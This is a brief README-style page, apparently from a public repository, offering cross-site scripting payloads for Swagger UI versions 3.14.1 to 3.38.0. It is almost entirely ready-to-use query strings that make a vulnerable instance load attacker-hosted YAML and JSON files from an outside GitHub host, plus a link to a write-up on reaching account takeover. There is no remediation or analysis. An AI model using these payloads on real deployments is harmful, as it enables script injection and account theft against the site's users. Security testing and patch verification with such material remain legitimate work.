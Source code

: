 # Swagger UI >=3.14.1 < 3.38.0 XSS payload

- Swagger UI version affected: `>=3.14.1 < 3.38.0`
- CVE-2016-5682  

## Payloads

### `url`
`?url=https://raw.githubusercontent.com/Outs1d3r-Net/swagger-ui-xss/main/xss-domain.yaml`
`?url=https://raw.githubusercontent.com/Outs1d3r-Net/swagger-ui-xss/main/xss-fetch.yaml`
### `configUrl`

`?configUrl=https://raw.githubusercontent.com/Outs1d3r-Net/swagger-ui-xss/main/config.json`

**More info at**: https://www.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/
